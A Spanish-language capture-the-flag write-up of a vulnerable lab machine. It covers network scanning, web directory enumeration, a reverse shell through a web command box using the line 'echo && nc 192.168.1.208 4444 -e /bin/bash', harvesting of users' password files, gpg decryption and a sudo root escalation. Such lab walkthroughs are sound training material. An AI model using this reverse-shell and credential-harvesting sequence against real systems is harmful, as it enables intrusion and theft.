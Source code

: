 
### Escaneo de Red

Identificamos la red con `netdiscover` para poder encontrar alguna red. Encontramos la IP 192.168.1.211, también sabemos que el sistema operativo es Linux

![[Pasted image 20231101092206.png]]

### Enumeración 

Ya una vez identifico la red a la cual voy a trabajar con nmap para saber que puertos pueden estar abiertos.

![[Pasted image 20231101095845.png]]

Podemos ver que tenemos dos puertos abiertos, 80 HTTP, 25468 SSH, dentro del puerto 80 identificamos que manera una versión de Apache, esto puede servirnos más adelante, al mismo tiempo podemos ver los directorios que deberían estar ocultos.

![[Pasted image 20231101102001.png]]
La pagina que tenemos es de una biblioteca de una escuela, aunque busqué en el código abierto no encontré nada que pudieran darme pistas de a donde tengo que ir... así que lo que sigue ahora es hacer una enumeración en la web

### Enumeración Web

Para la enumeración web trabajé con `dirb` y `gobuster` por si en alguna de los dos llegara a encontrar un directorio diferente, al trabajar con las dos encontré las mismas carpetas, así que investigaré el directorio Robots.txt y ver que puedo encontrar.

![[Pasted image 20231101112453.png]]

![[Pasted image 20231101112705.png]]

Dentro del directorio Robots.txt tenemos otros directorios que no encontramos en la enumeración, así que iré revisando para ver que información relevante se puede hallar

![[Pasted image 20231101115254.png]]

Decidí entrar en cada uno de los directorios pero en Login.php no me devuelve nada, ahora al utilizar el siguiente encuentro una pagina con una caja de texto y si opción de enviar, como ya vemos la pagina está hecha en php así que buscaré la manera de poder hacer una reverse … Por lo pronto dejaré anotado lo que espero hacer e iré mirando los demás directorios 

![[Pasted image 20231101121915.png]]

En el directorio /passwords.html encontré un texto que dice lo siguiente 

![[Pasted image 20231102110548.png]]
dentro del mensaje podemos entender que hay movido un archivo especifico fuera del servidor, tendremos que llegar allá para ver de que trata

En el directorio /lat_memo.html encontramos otro nombre, en este mensaje nos dicen que hay una shell ejecutándose en la web, la misma que vi hace un tiempo

![[Pasted image 20231102110806.png]]

### Uso de Metasploit

![[Pasted image 20231102112630.png]]
para esta ocasión utilizo metasploit para hacer de oyente al ejecutar un comando para hacer la reverse shell, iré haciendo los cambios pertinentes tanto en el shell de la web como en el metasploit 

![[Pasted image 20231102114043.png]]
![[Pasted image 20231102114124.png]]
Utilizo el siguiente comando echo && nc 192.168.1.208 4444 -e /bin/bash para poder hacer la ejecucion y que funcione como lo espero, veré si funciona 

![[Pasted image 20231102124643.png]]
Tenemos la sesión iniciada, ahora necesito trabajar con el shell interactivo, que se vea mas estético trabajar en la terminal 
![[Pasted image 20231102125121.png]]
Una vez estamos en la shell comenzamos a buscar fuera del servidor web que podemos hallar, dentro del directorio Home puedo ver 4 usuarios
Entro a investigar dentro del usuario Bob y logro ver un archivo oculto llamado old_passwordfile

![[Pasted image 20231102125459.png]]
![[Pasted image 20231102125605.png]]
Tomaré las contraseñas encontradas y las guardaré en una archivo aparte, verificaré si estas contraseñas todavía siguen en función
![[Pasted image 20231102130036.png]]
Vemos que dentro del mismo usuario Bob encontramos una carpeta tras otra que nos da como ultimo hallazgo un documento llamado notes.sh, a simple vista se ve como un chat normal pero las letras en mayúscula dan una palabra HARPOCRATES. 
Quise saber si había un significado para la palabra y encontré …  ` dios del silencio, los secretos y la confidencialidad en la religión helenística desarrollada en la Alejandría ptolemaica `  puede que esta palabra me sirve algún momento.

![[Pasted image 20231102130805.png]]
Dentro de la carpeta documentos habían otros dos archivos, uno `login.txt.gpg` y `staff.txt` así que la curiosidad me mató y quise ver que había dentro de cada uno

![[Pasted image 20231102141545.png]]
![[Pasted image 20231102141141.png]]
Dentro del usuario Elliot podemos encontrar un texto relevante, en el resto de su domino no encontré nada que aportara
En el texto podemos ver que nos terminan de confirmar que la contraseña de Jame es Qwerty y de paso también conocemos ahora la contraseña de elliot que es theadminisdumb

![[Pasted image 20231102141750.png]]
Estamos utilizando la herramienta de cifrado/descifrado gpg integrada. Le proporcionamos la frase de contraseña que encontramos y especificamos que queremos descifrar el archivo
Pero antes de eso debemos tener acceso a un usuario, así que entramos con el perfil seb y su contraseña, luego de esto utilizamos la herramienta de cifrado y esta nos genera la contraseña de bob

![[Pasted image 20231102144546.png]]
Realizamos un **sudo -l** para ver si Bob tiene acceso de root o comandos que puede usar
Usando **sudo bash** obtenemos un shell raíz y luego navegamos al directorio **/** donde se encuentra el archivo flag.txt
![[Pasted image 20231102145401.png]]

Obtenemos la flag y con esto concluye la maquina

![[Pasted image 20231102230454.png]]


